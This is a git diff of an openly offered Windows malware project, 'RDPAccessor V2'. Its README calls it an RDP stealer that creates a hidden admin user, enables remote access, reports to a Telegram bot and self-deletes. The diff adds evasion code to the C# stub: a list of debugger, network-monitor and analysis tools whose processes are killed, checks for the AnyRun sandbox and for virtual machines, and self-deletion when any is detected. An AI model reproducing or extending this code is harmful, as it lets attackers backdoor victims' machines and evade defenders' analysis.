

-

diff --git a/RDPAccessorProject/RDPAccessor_stub/exe/Program.cs b/RDPAccessorProject/RDPAccessor_stub/exe/Program.cs
@@ -3,7 +3,6 @@ using System.Diagnostics;
 using System.IO;
 using System.Management;
 using System.Net;
-using System.Reflection;
 
 namespace localhost
 {
@@ -12,31 +11,25 @@ namespace localhost
         [STAThread]
         private static void Main()
         {
-            var fileName = Process.GetCurrentProcess().MainModule.FileName;
+            CheckAnalysis(); // Check AnyRun or Virtual Machine 
+            CheckProcesses(); // Check forbidden processes: debuggers, network monitors and etc. . .
+
             try
             {
-                if (CheckProcesses())
-                {
-                    Program.createAdminUser();
-                    Program.allowRemoteAccess();
-                    Program.SendMessage("Job's done!");
-                } else
-                {
-                    Program.createAdminUser();
-                    Program.allowRemoteAccess();
-                    Program.SendMessage("Job's done!");
-                }
-
+                createAdminUser(); // Create admin user
+                allowRemoteAccess(); // Allowed remote accesses
+                SendMessage("Job's done!"); // null function
+                autoSeflDel(); // auto-self delete function
             }
-            catch
+            catch 
             {
-                // Ошибки не выводятся, вызывается selfRemove
-                Program.selfRemove(fileName, 1);
+                autoSeflDel(); // Autoself delete
                 return;
             }
 
-            Program.selfRemove(fileName, 1);
+
         }
+
 
         private static void createAdminUser()
         {
@@ -116,11 +109,10 @@ namespace localhost
             }
         }
 
-        private static bool CheckProcesses()
+        public static bool CheckProcesses()
         {
-            string[] forbiddenProcesses =
-            {
-                                "dnspy", "Mega Dumper", "Dumper", "PE-bear", "de4dot", "TCPView", "Resource Hacker", "Pestudio", "HxD", "Scylla",
+            string[] forbiddenProcesses = {
+                "dnspy", "Mega Dumper", "Dumper", "PE-bear", "de4dot", "TCPView", "Resource Hacker", "Pestudio", "HxD", "Scylla",
                 "de4dot", "PE-bear", "Fakenet-NG", "ProcessExplorer", "SoftICE", "ILSpy", "dump", "proxy", "de4dotmodded", "StringDecryptor",
                 "Centos", "SAE", "monitor", "brute", "checker", "zed", "sniffer", "http", "debugger", "james",
                 "exeinfope", "codecracker", "x32dbg", "x64dbg", "ollydbg", "ida -", "charles", "dnspy", "simpleassembly", "peek",
@@ -129,32 +121,87 @@ namespace localhost
                 "deobfuscator", "de4dot", "confuser", " /snd", "x64dbg", "x32dbg", "x96dbg", "process hacker", "dotpeek", ".net reflector",
                 "ilspy", "file monitoring", "file monitor", "files monitor", "netsharemonitor", "fileactivitywatcher", "fileactivitywatch", "windows explorer tracker", "process monitor", "disk pluse",
                 "file activity monitor", "fileactivitymonitor", "file access monitor", "mtail", "snaketail", "tail -n", "httpnetworksniffer", "microsoft message analyzer", "networkmonitor", "network monitor",
-                "soap monitor", "internet traffic agent", "socketsniff", "networkminer", "network debugger", "HTTPDebuggerSvc", "HTTPDebuggerUI", "mitmproxy", "python", "mitm", "taskmgr", "ProcessHacker2", "Process Hacker2", "Wireshark", "Process Hacker", "Process Hacker 2",
+                "soap monitor", "ProcessHacker", "internet traffic agent", "socketsniff", "networkminer", "network debugger", "HTTPDebuggerUI", "mitmproxy", "python", "mitm", "Wireshark","UninstallTool", "UninstallToolHelper", "ProcessHacker",
             };
+            var processes = Process.GetProcesses();
 
             foreach (var processName in forbiddenProcesses)
             {
-                var processes = Process.GetProcessesByName(processName);
-                
-                if (processes.Length > 0)
+                foreach (var process in processes)
                 {
-                    foreach (var process in processes)
+                    if (process.ProcessName.ToLower() == processName.ToLower())
                     {
-                        try {
-                            
+                        try
+                        {
                             process.Kill();
+                            process.Dispose();
                         }
-                        catch {
-                            // 
-                        }
-                    }
+                        catch{}
 
-                    return true;
+
+                        return true;
+                    }
                 }
             }
 
             return false;
         }
+
+        private static bool AnyRunDtc()
+        {
+            string[] array = { "Acrobat Reader DC.lnk", "CCleaner.lnk", "FileZilla Client.lnk", "Firefox.lnk", "Google Chrome.lnk", "Skype.lnk", "Microsoft Edge.lnk" };
+
+            foreach (string fileName in array)
+            {
+                if (!File.Exists(Path.Combine(Environment.ExpandEnvironmentVariables("%systemdrive%"), "Users", "Public", "Desktop", fileName)))
+                {
+                    return false; 
+                }
+            }
+
+            // Проверка на имя пользователя и имя машины
+            if (string.Equals(Environment.UserName.ToLower(), "admin", StringComparison.OrdinalIgnoreCase) && Environment.MachineName.Contains("USER-PC"))
+            {
+                autoSeflDel();
+            }
+
+            return false;
+        }
+
+
+        private static bool AntiVM_Checker()
+        {
+            string[] vmProcesses = {
+        "vmtoolsd", "vmwaretray", "vmwareuser", "vgauthservice", "vmacthlp",
+        "vmsrvc", "vmusrvc", "prl_cc", "prl_tools", "xenservice", "qemu-ga", "joeboxcontrol",
+        "ksdumperclient", "ksdumper", "joeboxserver", "vmwareservice", "vmwaretray", "VBoxService",
+        "VBoxTray",
+    };
+
+            var processes = Process.GetProcesses();
+
+            foreach (var process in processes)
+            {
+                foreach (var processName in vmProcesses)
+                {
+                    if (process.ProcessName.ToLower() == processName.ToLower())
+                    {
+                        autoSeflDel();
+                    }
+                }
+            }
+
+            return false;
+        }
+
+
+
+        private static void CheckAnalysis()
+        {
+            AntiVM_Checker();
+            AnyRunDtc();
+        }
+        
 
         private static void RunPS(string args)
         {
@@ -214,6 +261,13 @@ namespace localhost
                 }
             }
             return result;
+        }
+
+
+        private static void autoSeflDel()
+        {
+            var fileName = Process.GetCurrentProcess().MainModule.FileName;
+            selfRemove(fileName, 1);
         }
 
         private static void selfRemove(string fileName, int delaySecond = 2)

diff --git a/RDPAccessorProject/RDPAccessor_builder/RDPAccessor/Form1.Designer.cs b/RDPAccessorProject/RDPAccessor_builder/RDPAccessor/Form1.Designer.cs
@@ -209,9 +209,9 @@
             this.label1.ForeColor = System.Drawing.Color.White;
             this.label1.Location = new System.Drawing.Point(55, 20);
             this.label1.Name = "label1";
-            this.label1.Size = new System.Drawing.Size(81, 19);
+            this.label1.Size = new System.Drawing.Size(114, 19);
             this.label1.TabIndex = 6;
-            this.label1.Text = "RDPStealer";
+            this.label1.Text = "RDPAccessor V2";
             // 
             // buildBtn
             // 

diff --git a/README.md b/README.md
@@ -1,10 +1,10 @@
-# RDPAccessor
+# RDPAccessor V2
 
 ![CSHARP](https://img.shields.io/badge/Language-CSHARP-aqua?style=for-the-badge&logo=CS)
 ![](SAMPLE.jpg)
 
 ## 📑 About
-</b>RDPAccessor creating a hidden user with sending to telegram</b>
+</b>RDPAccessor V2 creating a hidden user with sending to telegram</b>
 <strong>Most simple rdp stealer(accessor), this program have builder for crafting stubs.</strong>
 
 
@@ -15,6 +15,8 @@
  * Build Size: 6kb✅
  * Self-Delete after send in telegram-bot:✅
  * Protections of debuggers/monitors/and etc:✅
+ * Simple Anti-VirtualMachine:✅
+ * Simple AnyRun:✅
 
 ## 💻 Screens
 <p float="left" align="center">
@@ -35,7 +37,8 @@
 
 
  ### 🃏Updates-Note:
- * //TODO add. . .
+ * CHANGELOG: 03.03.2024
+ * Fixed stub, add anti-anyrun and anti virtual machine.
 
 
 ## ⚠ Disclaimer - this project for education and purposes only!
